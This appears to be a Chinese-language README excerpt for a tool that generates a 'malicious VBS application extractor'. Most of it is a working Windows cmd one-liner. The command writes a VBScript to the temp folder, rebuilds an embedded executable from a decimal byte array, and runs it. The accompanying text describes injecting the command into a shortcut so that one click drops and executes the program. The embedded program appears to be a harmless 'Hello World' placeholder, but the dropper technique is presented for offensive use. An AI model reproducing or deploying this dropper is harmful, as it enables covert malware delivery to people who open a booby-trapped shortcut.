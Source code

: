 ```
del %temp%tmp.vbs &amp; echo payload=array(77,90,128,0,1,0,0,0,4,0,16,0,255,255,0,0,64,1,0,0,0,0,0,0,64,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,128,0,0,0,14,31,186,14,0,180,9,205,33,184,1,76,205,33,84,104,105,115,32,112,114,111,103,114,97,109,32,99,97,110,110,111,116,32,98,101,32,114,117,110,32,105,110,32,68,79,83,32,109,111,100,101,46,13,10,36,0,0,0,0,0,0,0,0,80,69,0,0,76,1,2,0,133,214,90,88,0,0,0,0,0,0,0,0,224,0,15,1,11,1,1,71,0,2,0,0,0,2,0,0,0,0,0,0,0,16,0,0,0,16,0,0,0,32,0,0,0,0,64,0,0,16,0,0,0,2,0,0,1,0,0,0,0,0,0,0,4,0,0,0,0,0,0,0,0,48,0,0,0,2,0,0,9,63,0,0,2,0,0,0,0,16,0,0,0,16,0,0,0,0,1,0,0,0,0,0,0,0,0,0,16,0,0,0,0,0,0,0,0,0,0,0,0,32,0,0,176,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,46,116,101,120,116,0,0,0,42,0,0,0,0,16,0,0,0,2,0,0,0,2,0,0,0,0,0,0,0,0,0,0,0,0,0,0,32,0,0,96,46,105,100,97,116,97,0,0,176,0,0,0,0,32,0,0,0,2,0,0,0,4,0,0,0,0,0,0,0,0,0,0,0,0,0,0,64,0,0,192,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,106,0,255,21,104,32,64,0,80,232,12,0,0,0,72,101,108,108,111,32,87,111,114,108,100,0,106,0,255,21,152,32,64,0,106,0,255,21,100,32,64,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,88,32,0,0,0,0,0,0,0,0,0,0,60,32,0,0,100,32,0,0,144,32,0,0,0,0,0,0,0,0,0,0,74,32,0,0,152,32,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,75,69,82,78,69,76,51,50,46,68,76,76,0,0,85,83,69,82,51,50,46,68,76,76,0,0,0,0,112,32,0,0,126,32,0,0,0,0,0,0,112,32,0,0,126,32,0,0,0,0,0,0,0,0,69,120,105,116,80,114,111,99,101,115,115,0,0,0,71,101,116,67,111,109,109,97,110,100,76,105,110,101,65,0,160,32,0,0,0,0,0,0,160,32,0,0,0,0,0,0,0,0,77,101,115,115,97,103,101,66,111,120,65,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0) &gt;&gt; %temp%tmp.vbs &amp; echo Set FSO = Wscript.CreateObject("Scripting.FileSystemObject") &gt;&gt; %temp%tmp.vbs &amp; echo Set CTF = FSO.CreateTextFile("%temp%tmp.exe") &gt;&gt; %temp%tmp.vbs &amp; echo for i = 0 to UBound(payload) &gt;&gt; %temp%tmp.vbs &amp; echo buff = buff^&amp;chr(payload(i)) &gt;&gt; %temp%tmp.vbs &amp; echo next &gt;&gt; %temp%tmp.vbs &amp; echo CTF.Write buff &gt;&gt; %temp%tmp.vbs &amp; echo Dim objShell &gt;&gt; %temp%tmp.vbs &amp; echo Set objShell = WScript.CreateObject("WScript.Shell") &gt;&gt; %temp%tmp.vbs &amp; echo CTF.Close &gt;&gt; %temp%tmp.vbs &amp; echo objShell.Run("%temp%tmp.exe") &gt;&gt; %temp%tmp.vbs &amp; %temp%tmp.vbs
```

如果将它粘贴到您喜欢的命令提示符下，它会将一个VBS文件提取到临时文件夹中，如果运行此VBS文件的话，它将执行该嵌入式应用程序。

当你将这个payload注入一个快捷方式后，只需点击该快捷方式，它就会替你完成所有的工作！

<br>

**使用方法**

生成内联恶意VBS应用程序提取器 
